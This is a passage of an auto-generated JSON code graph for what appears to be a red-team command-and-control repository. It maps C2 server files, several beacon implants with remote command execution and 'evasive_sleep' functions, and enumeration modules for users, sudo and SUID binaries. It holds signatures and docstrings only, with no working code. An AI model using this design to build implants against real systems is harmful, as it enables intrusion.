"tests/test_runtime_random.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_runtime_random.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_runtime_random.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_runtime_random.py", "target": "c2.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_runtime_random.py", "target": "config_py"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_runtime_random.py", "target": "c2.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_runtime_random.py", "target": "c2.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "importlib.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "c2.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "ssl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_stage.py", "target": "c2.server"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "aes.c", "target": "aes.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "beacons/v1/beacon.c", "target": "include/beacon_common.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "beacons/v2/beacon.c", "target": "include/beacon_common.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "beacons/v3/beacon.c", "target": "include/beacon_common.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "bof/cat/bof.c", "target": "bof/include/beacon_api.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "bof/cat/bof.c", "target": "bof/include/syscalls.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "bof/is_sudo/bof.c", "target": "bof/include/beacon_api.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "bof/is_sudo/bof.c", "target": "bof/include/syscalls.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "bof/suid_enum/bof.c", "target": "bof/include/beacon_api.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "bof/suid_enum/bof.c", "target": "bof/include/syscalls.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "bof/userenum/bof.c", "target": "bof/include/beacon_api.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "bof/userenum/bof.c", "target": "bof/include/syscalls.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "bof/whoami/bof.c", "target": "bof/include/beacon_api.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "bof/whoami/bof.c", "target": "bof/include/syscalls.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "bof.c", "target": "beacon.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "c2/server.py", "target": "include/config_py.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cJSON.c", "target": "cJSON.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "include/aes.c", "target": "include/aes.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "include/aes_cfb.c", "target": "include/aes.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "include/aes_cfb.c", "target": "include/aes_cfb.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "include/beacon_common.c", "target": "include/beacon_common.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "include/beacon_common.c", "target": "include/aes.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "include/beacon_common.c", "target": "include/cJSON.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "include/beacon_common.h", "target": "include/config.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "include/cJSON.c", "target": "include/cJSON.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "include/config.c", "target": "include/config.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "include/config_autogen.c", "target": "include/config_autogen.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/async_i_o_for_beacon.c", "target": "include/async_i_o_for_beacon.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/beacon_common.c_extraction.c", "target": "include/beacon_common.c_extraction.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/beacon_heartbeat___health_endpoint.c", "target": "include/beacon_heartbeat___health_endpoint.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/bof_api_versioning.c", "target": "include/bof_api_versioning.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/bof_path_traversal_hardening.c", "target": "include/bof_path_traversal_hardening.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/bof_streaming_(large_outputs).c", "target": "include/bof_streaming_(large_outputs).h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/c2_rest_api.c", "target": "include/c2_rest_api.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/certificate_pinning___tofu.c", "target": "include/certificate_pinning___tofu.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/command_execution_via_execve.c", "target": "include/command_execution_via_execve.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/containerized_build_+_sbom.c", "target": "include/containerized_build_+_sbom.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/hkdf_key_derivation.c", "target": "include/hkdf_key_derivation.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/iv_generation_with_entropy_verification.c", "target": "include/iv_generation_with_entropy_verification.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/mutation_testing_integration.c", "target": "include/mutation_testing_integration.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/pre-commit_+_ci_hardening.c", "target": "include/pre-commit_+_ci_hardening.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/replay_protection.c", "target": "include/replay_protection.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/socks5___http_proxy_support.c", "target": "include/socks5___http_proxy_support.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/structured_jsonl_logging.c", "target": "include/structured_jsonl_logging.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/tls_client_certificate_authentication.c", "target": "include/tls_client_certificate_authentication.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/src/unified_config_schema.c", "target": "include/unified_config_schema.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/tests/config_harness.c", "target": "include/config.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/tests/crypto_harness.c", "target": "include/aes_cfb.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/tests/test_c2_http_e2e.py", "target": "c2/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/tests/test_c2_server.py", "target": "c2/server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "mutants/tests/test_certificate_pinning.py", "target": "include/config_py.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/async_i_o_for_beacon.c", "target": "include/async_i_o_for_beacon.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/beacon_common.c_extraction.c", "target": "include/beacon_common.c_extraction.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/beacon_heartbeat___health_endpoint.c", "target": "include/beacon_heartbeat___health_endpoint.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/bof_api_versioning.c", "target": "include/bof_api_versioning.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/bof_path_traversal_hardening.c", "target": "include/bof_path_traversal_hardening.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/bof_streaming_(large_outputs).c", "target": "include/bof_streaming_(large_outputs).h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/c2_rest_api.c", "target": "include/c2_rest_api.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/certificate_pinning___tofu.c", "target": "include/certificate_pinning___tofu.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/command_execution_via_execve.c", "target": "include/command_execution_via_execve.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/containerized_build_+_sbom.c", "target": "include/containerized_build_+_sbom.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/hkdf_key_derivation.c", "target": "include/hkdf_key_derivation.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/iv_generation_with_entropy_verification.c", "target": "include/iv_generation_with_entropy_verification.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/mutation_testing_integration.c", "target": "include/mutation_testing_integration.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/pre-commit_+_ci_hardening.c", "target": "include/pre-commit_+_ci_hardening.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/replay_protection.c", "target": "include/replay_protection.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/socks5___http_proxy_support.c", "target": "include/socks5___http_proxy_support.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/structured_jsonl_logging.c", "target": "include/structured_jsonl_logging.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/tls_client_certificate_authentication.c", "target": "include/tls_client_certificate_authentication.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "src/unified_config_schema.c", "target": "include/unified_config_schema.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/config_harness.c", "target": "include/config.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/crypto_harness.c", "target": "include/aes_cfb.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_bof_path_traversal.py", "target": "c2/server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "c2/server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "include/config_py.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "include/config_py.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_c2_http_e2e.py", "target": "c2/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_c2_http_e2e.py", "target": "c2/server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_c2_server.py", "target": "c2/server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_certificate_pinning.py", "target": "include/config_py.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_certificate_pinning.py", "target": "c2/server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_certificate_pinning.py", "target": "c2/server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_certificate_pinning_c.c", "target": "include/config.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_crypto.py", "target": "c2/server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_hkdf_key_derivation.py", "target": "include/config_py.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_hkdf_key_derivation_c.c", "target": "include/config.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_iv_generation.py", "target": "include/config_py.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_iv_generation.py", "target": "c2/server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_iv_generation_c.c", "target": "include/beacon_common.h"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_replay_protection.py", "target": "include/config_py.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_replay_protection.py", "target": "c2/server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_runtime_random.py", "target": "c2/server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_runtime_random.py", "target": "include/config_py.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_runtime_random.py", "target": "c2/server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_runtime_random.py", "target": "c2/server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_stage.py", "target": "c2/server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_stage.py", "target": "c2/server.py"}], "generator": "readmenator", "metadata": {"edge_count": 4143, "file_count": 179, "language_count": 4, "symbol_count": 1587}, "nodes": [{"doc": "aes.c - tiny-AES-c (https://github.com/kokke/tiny-AES-c)", "id": "aes.c", "kind": "module", "label": "aes.c", "language": "c", "sha256": "f253390404ff09c7", "symbol_count": 43, "symbols": [{"kind": "function", "line": 11, "name": "getSBoxValue", "signature": "static uint8_t getSBoxValue(uint8_t num)"}, {"kind": "function", "line": 35, "name": "getSBoxInvert", "signature": "static uint8_t getSBoxInvert(uint8_t num)"}, {"kind": "function", "line": 59, "name": "Td0", "signature": "static uint8_t Td0(int x)"}, {"kind": "function", "line": 63, "name": "Td1", "signature": "static uint8_t Td1(int x)"}, {"kind": "function", "line": 67, "name": "Td2", "signature": "static uint8_t Td2(int x)"}, {"kind": "function", "line": 71, "name": "Td3", "signature": "static uint8_t Td3(int x)"}, {"kind": "function", "line": 75, "name": "Td4", "signature": "static uint8_t Td4(int x)"}, {"doc": "This function produces Nb(Nr+1) round keys. The round keys are used in each round to decrypt the states.", "kind": "function", "line": 181, "name": "KeyExpansion", "signature": "static void KeyExpansion(uint8_t *RoundKey, const uint8_t *Key)"}, {"kind": "function", "line": 254, "name": "AES_init_ctx", "signature": "void AES_init_ctx(struct AES_ctx *ctx, const uint8_t *key)"}, {"doc": "if (defined(CBC) && (CBC == 1)) || (defined(CTR) && (CTR == 1))", "kind": "function", "line": 259, "name": "AES_init_ctx_iv", "signature": "void AES_init_ctx_iv(struct AES_ctx *ctx, const uint8_t *key, const uint8_t *iv)"}, {"kind": "function", "line": 264, "name": "AES_ctx_set_iv", "signature": "void AES_ctx_set_iv(struct AES_ctx *ctx, const uint8_t *iv)"}, {"doc": "This function adds the round key to state. The round key is added to the state by an XOR function.", "kind": "function", "line": 272, "name": "AddRoundKey", "signature": "static void AddRoundKey(uint8_t round, state_t *state, const uint8_t *RoundKey)"}, {"doc": "The SubBytes Function Substitutes the values in the state matrix with values in an S-box.", "kind": "function", "line": 286, "name": "SubBytes", "signature": "static void SubBytes(state_t *state)"}, {"doc": "The ShiftRows() function shifts the rows in the state to the left. Each row is shifted with different offset. Offset = Row number. So the first row is not shifted.", "kind": "function", "line": 301, "name": "ShiftRows", "signature": "static void ShiftRows(state_t *state)"}, {"kind": "function", "line": 329, "name": "xtime", "signature": "static uint8_t xtime(uint8_t x)"}, {"doc": "MixColumns function mixes the columns of the state matrix", "kind": "function", "line": 335, "name": "MixColumns", "signature": "static void MixColumns(state_t *state)"}, {"doc": "Multiply is used to multiply numbers in the field GF(2^8) Note: The last call to xtime() is unneeded, but often ends up generating a smaller binary The compiler seems to be able to vectorize the operation better this way. See https://github.com/kokke/tiny-AES-c/pull/34 if MULTIPLY_AS_A_FUNCTION", "kind": "function", "line": 363, "name": "Multiply", "signature": "static uint8_t Multiply(uint8_t x, uint8_t y)"}, {"doc": "MixColumns function mixes the columns of the state matrix. The method used to multiply may be difficult to understand for the inexperienced. Please use the references to gain more information.", "kind": "function", "line": 389, "name": "InvMixColumns", "signature": "static void InvMixColumns(state_t *state)"}, {"doc": "The SubBytes Function Substitutes the values in the state matrix with values in an S-box.", "kind": "function", "line": 413, "name": "InvSubBytes", "signature": "static void InvSubBytes(state_t *state)"}, {"kind": "function", "line": 425, "name": "InvShiftRows", "signature": "static void InvShiftRows(state_t *state)"}, {"doc": "Cipher is the main function that encrypts the PlainText.", "kind": "function", "line": 455, "name": "Cipher", "signature": "static void Cipher(state_t *state, const uint8_t *RoundKey)"}, {"doc": "if (defined(CBC) && CBC == 1) || (defined(ECB) && ECB == 1)", "kind": "function", "line": 482, "name": "InvCipher", "signature": "static void InvCipher(state_t *state, const uint8_t *RoundKey)"}, {"kind": "function", "line": 512, "name": "AES_ECB_encrypt", "signature": "void AES_ECB_encrypt(const struct AES_ctx *ctx, uint8_t *buf)"}, {"kind": "function", "line": 518, "name": "AES_ECB_decrypt", "signature": "void AES_ECB_decrypt(const struct AES_ctx *ctx, uint8_t *buf)"}, {"kind": "function", "line": 528, "name": "XorWithIv", "signature": "static void XorWithIv(uint8_t *buf, const uint8_t *Iv)"}, {"kind": "function", "line": 537, "name": "AES_CBC_encrypt_buffer", "signature": "void AES_CBC_encrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length)"}, {"kind": "function", "line": 552, "name": "AES_CBC_decrypt_buffer", "signature": "void AES_CBC_decrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length)"}, {"doc": "Symmetrical operation: same function for encrypting as for decrypting. Note any IV/nonce should * never be reused with the same key", "kind": "function", "line": 572, "name": "AES_CTR_xcrypt_buffer", "signature": "void AES_CTR_xcrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length)"}, {"kind": "macro", "line": 5, "name": "Nb", "signature": "#define Nb"}, {"kind": "macro", "line": 7, "name": "KEYLEN_256", "signature": "#define KEYLEN_256"}, {"kind": "macro", "line": 8, "name": "RKLENGTH", "signature": "#define RKLENGTH"}, {"kind": "macro", "line": 9, "name": "BLOCKLEN", "signature": "#define BLOCKLEN"}, {"kind": "macro", "line": 84, "name": "Nb", "signature": "#define Nb"}, {"kind": "macro", "line": 87, "name": "Nk", "signature": "#define Nk"}, {"kind": "macro", "line": 88, "name": "Nr", "signature": "#define Nr"}, {"kind": "macro", "line": 90, "name": "Nk", "signature": "#define Nk"}, {"kind": "macro", "line": 91, "name": "Nr", "signature": "#define Nr"}, {"kind": "macro", "line": 93, "name": "Nk", "signature": "#define Nk"}, {"kind": "macro", "line": 94, "name": "Nr", "signature": "#define Nr"}, {"kind": "macro", "line": 101, "name": "MULTIPLY_AS_A_FUNCTION", "signature": "#define MULTIPLY_AS_A_FUNCTION"}, {"kind": "macro", "line": 177, "name": "getSBoxValue", "signature": "#define getSBoxValue(num)"}, {"kind": "macro", "line": 371, "name": "Multiply", "signature": "#define Multiply(x, y)"}, {"kind": "macro", "line": 384, "name": "getSBoxInvert", "signature": "#define getSBoxInvert(num)"}]}, {"doc": "#define the macros below to 1/0 to enable/disable the mode of operation.", "id": "aes.h", "kind": "module", "label": "aes.h", "language": "h", "sha256": "e1e91ab2bbec246c", "symbol_count": 21, "symbols": [{"kind": "struct", "line": 33, "name": "AES_ctx"}, {"kind": "function", "line": 41, "name": "AES_init_ctx", "signature": "void AES_init_ctx(struct AES_ctx *ctx, const uint8_t *key);"}, {"doc": "if (defined(CBC) && (CBC == 1)) || (defined(CTR) && (CTR == 1))", "kind": "function", "line": 43, "name": "AES_init_ctx_iv", "signature": "void AES_init_ctx_iv(struct AES_ctx *ctx, const uint8_t *key, const uint8_t *iv);"}, {"kind": "function", "line": 44, "name": "AES_ctx_set_iv", "signature": "void AES_ctx_set_iv(struct AES_ctx *ctx, const uint8_t *iv);"}, {"doc": "if defined(ECB) && (ECB == 1)", "kind": "function", "line": 48, "name": "AES_ECB_encrypt", "signature": "void AES_ECB_encrypt(const struct AES_ctx *ctx, uint8_t *buf);"}, {"kind": "function", "line": 49, "name": "AES_ECB_decrypt", "signature": "void AES_ECB_decrypt(const struct AES_ctx *ctx, uint8_t *buf);"}, {"doc": "if defined(CBC) && (CBC == 1)", "kind": "function", "line": 53, "name": "AES_CBC_encrypt_buffer", "signature": "void AES_CBC_encrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length);"}, {"kind": "function", "line": 54, "name": "AES_CBC_decrypt_buffer", "signature": "void AES_CBC_decrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length);"}, {"doc": "if defined(CTR) && (CTR == 1)", "kind": "function", "line": 58, "name": "AES_CTR_xcrypt_buffer", "signature": "void AES_CTR_xcrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length);"}, {"kind": "macro", "line": 2, "name": "_AES_H_", "signature": "#define _AES_H_"}, {"kind": "macro", "line": 9, "name": "CBC", "signature": "#define CBC"}, {"kind": "macro", "line": 12, "name": "ECB", "signature": "#define ECB"}, {"kind": "macro", "line": 15, "name": "CTR", "signature": "#define CTR"}, {"kind": "macro", "line": 18, "name": "AES256", "signature": "#define AES256"}, {"kind": "macro", "line": 20, "name": "AES_BLOCKLEN", "signature": "#define AES_BLOCKLEN"}, {"kind": "macro", "line": 23, "name": "AES_KEYLEN", "signature": "#define AES_KEYLEN"}, {"kind": "macro", "line": 24, "name": "AES_keyExpSize", "signature": "#define AES_keyExpSize"}, {"kind": "macro", "line": 26, "name": "AES_KEYLEN", "signature": "#define AES_KEYLEN"}, {"kind": "macro", "line": 27, "name": "AES_keyExpSize", "signature": "#define AES_keyExpSize"}, {"kind": "macro", "line": 29, "name": "AES_KEYLEN", "signature": "#define AES_KEYLEN"}, {"kind": "macro", "line": 30, "name": "AES_keyExpSize", "signature": "#define AES_keyExpSize"}]}, {"doc": "app.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: xx/xx/xxxx Licencia: GPL v3  Descripción:", "id": "app.py", "kind": "module", "label": "app.py", "language": "py", "sha256": "57b21bdb023585b8", "symbol_count": 0, "symbols": []}, {"doc": "beacon_api.h   Tipos de callback  Estructura para parsing de datos (opcional, para comandos complejos)", "id": "beacon.h", "kind": "module", "label": "beacon.h", "language": "h", "sha256": "0cff0a3154af0632", "symbol_count": 13, "symbols": [{"doc": "Estructura para parsing de datos (opcional, para comandos complejos)", "kind": "struct", "line": 14, "name": "datap"}, {"doc": "=== API para BOFs ===", "kind": "function", "line": 22, "name": "BeaconDataParse", "signature": "void BeaconDataParse(datap *parser, char *buffer, int size);"}, {"kind": "function", "line": 23, "name": "BeaconDataPtr", "signature": "char *BeaconDataPtr(datap *parser, int size);"}, {"kind": "function", "line": 24, "name": "BeaconDataInt", "signature": "int BeaconDataInt(datap *parser);"}, {"kind": "function", "line": 25, "name": "BeaconDataShort", "signature": "short BeaconDataShort(datap *parser);"}, {"kind": "function", "line": 26, "name": "BeaconDataLength", "signature": "int BeaconDataLength(datap *parser);"}, {"kind": "function", "line": 27, "name": "BeaconDataExtract", "signature": "char *BeaconDataExtract(datap *parser, int *size);"}, {"kind": "function", "line": 28, "name": "BeaconPrintf", "signature": "void BeaconPrintf(int type, const char *fmt, ...);"}, {"kind": "function", "line": 29, "name": "BeaconOutput", "signature": "void BeaconOutput(int type, const char *data, int len);"}, {"kind": "macro", "line": 3, "name": "BEACON_API_H", "signature": "#define BEACON_API_H"}, {"kind": "macro", "line": 9, "name": "CALLBACK_OUTPUT", "signature": "#define CALLBACK_OUTPUT"}, {"kind": "macro", "line": 10, "name": "CALLBACK_ERROR", "signature": "#define CALLBACK_ERROR"}, {"kind": "macro", "line": 11, "name": "CALLBACK_OUTPUT_OEM", "signature": "#define CALLBACK_OUTPUT_OEM"}]}, {"id": "beacons/v1/beacon.c", "kind": "module", "label": "beacon.c", "language": "c", "sha256": "4ee1677466e4482f", "symbol_count": 4, "symbols": [{"kind": "function", "line": 24, "name": "report_result", "signature": "static void report_result(const bsb_config_t *cfg, const char *command, const char *output)"}, {"kind": "function", "line": 104, "name": "execute_command", "signature": "static char *execute_command(const bsb_config_t *cfg, const char *command)"}, {"kind": "function", "line": 167, "name": "main", "signature": "int main(void)"}, {"kind": "macro", "line": 13, "name": "_GNU_SOURCE", "signature": "#define _GNU_SOURCE"}]}, {"id": "beacons/v2/beacon.c", "kind": "module", "label": "beacon.c", "language": "c", "sha256": "44bac404eb9bc30c", "symbol_count": 11, "symbols": [{"kind": "struct", "line": 33, "name": "peer_t"}, {"kind": "struct", "line": 41, "name": "mesh_msg_t"}, {"kind": "function", "line": 69, "name": "report_result", "signature": "static void report_result(const bsb_config_t *cfg, const char *command, const char *output)"}, {"kind": "function", "line": 149, "name": "execute_command", "signature": "static char *execute_command(const bsb_config_t *cfg, const char *command)"}, {"kind": "function", "line": 212, "name": "main", "signature": "int main(void)"}, {"kind": "macro", "line": 12, "name": "_GNU_SOURCE", "signature": "#define _GNU_SOURCE"}, {"kind": "macro", "line": 27, "name": "MAX_PEERS", "signature": "#define MAX_PEERS"}, {"kind": "macro", "line": 28, "name": "DISCOVERY_PORT", "signature": "#define DISCOVERY_PORT"}, {"kind": "macro", "line": 29, "name": "DISCOVERY_INTERVAL", "signature": "#define DISCOVERY_INTERVAL"}, {"kind": "macro", "line": 30, "name": "MAX_TTL", "signature": "#define MAX_TTL"}, {"kind": "macro", "line": 31, "name": "MESH_MSG_SIZE", "signature": "#define MESH_MSG_SIZE"}]}, {"id": "beacons/v3/beacon.c", "kind": "module", "label": "beacon.c", "language": "c", "sha256": "bda12f56786bc097", "symbol_count": 7, "symbols": [{"kind": "function", "line": 8, "name": "infrastructure", "signature": "*\n * All shared infrastructure (HTTP client, crypto, BOF loader)\n * lives in beacon_common.c. Thi..."}, {"kind": "function", "line": 42, "name": "compute_primes", "signature": "static int compute_primes(int count)"}, {"kind": "function", "line": 55, "name": "evasive_sleep", "signature": "static void evasive_sleep(int seconds)"}, {"kind": "function", "line": 62, "name": "report_result", "signature": "static void report_result(const bsb_config_t *cfg, const char *command, const char *output)"}, {"kind": "function", "line": 142, "name": "execute_command", "signature": "static char *execute_command(const bsb_config_t *cfg, const char *command)"}, {"kind": "function", "line": 205, "name": "main", "signature": "int main(void)"}, {"kind": "macro", "line": 12, "name": "_GNU_SOURCE", "signature": "#define _GNU_SOURCE"}]}, {"id": "bof/cat/bof.c", "kind": "module", "label": "bof.c", "language": "c", "sha256": "189f6ad50029849e", "symbol_count": 1, "symbols": [{"kind": "function", "line": 15, "name": "go", "signature": "void go(char *args, int alen)"}]}, {"doc": "readfile.c — LazyOwn RedTeam BOF (Linux/x64) gcc -c -nostdlib -fPIC -m64 -O2 cat.c -o cat.x64.o  Tipos", "id": "bof/cat/cat.c", "kind": "module", "label": "cat.c", "language": "c", "sha256": "5189ef5c9bb51904", "symbol_count": 12, "symbols": [{"doc": "Tipos", "kind": "type_alias", "line": 7, "name": "size_t", "signature": "typedef unsigned long size_t;"}, {"kind": "type_alias", "line": 8, "name": "ssize_t", "signature": "typedef long ssize_t;"}, {"doc": "Wrappers (copiados de tus ejemplos)", "kind": "function", "line": 21, "name": "syscall3", "signature": "static inline long syscall3(long n, long a1, long a2, long a3)"}, {"kind": "function", "line": 31, "name": "go", "signature": "void go(char *args, int alen)"}, {"doc": "Símbolos del beacon", "kind": "function", "line": 11, "name": "BeaconPrintf", "signature": "extern void BeaconPrintf(int, const char *, ...);"}, {"kind": "function", "line": 12, "name": "BeaconOutput", "signature": "extern void BeaconOutput(int, const char *, int);"}, {"kind": "macro", "line": 3, "name": "NULL", "signature": "#define NULL"}, {"kind": "macro", "line": 4, "name": "CALLBACK_OUTPUT", "signature": "#define CALLBACK_OUTPUT"}, {"kind": "macro", "line": 15, "name": "SYS_openat", "signature": "#define SYS_openat"}, {"kind": "macro", "line": 16, "name": "SYS_read", "signature": "#define SYS_read"}, {"kind": "macro", "line": 17, "name": "SYS_close", "signature": "#define SYS_close"}, {"kind": "macro", "line": 18, "name": "AT_FDCWD", "signature": "#define AT_FDCWD"}]}, {"id": "bof/include/beacon_api.h", "kind": "module", "label": "beacon_api.h", "language": "h", "sha256": "78f9eba4b615c792", "symbol_count": 14, "symbols": [{"doc": "Argument parser. BOFs that want to read structured args fill * one of these in via BeaconDataParse then pull fields out.", "kind": "struct", "line": 30, "name": "datap"}, {"kind": "function", "line": 10, "name": "go", "signature": "* * 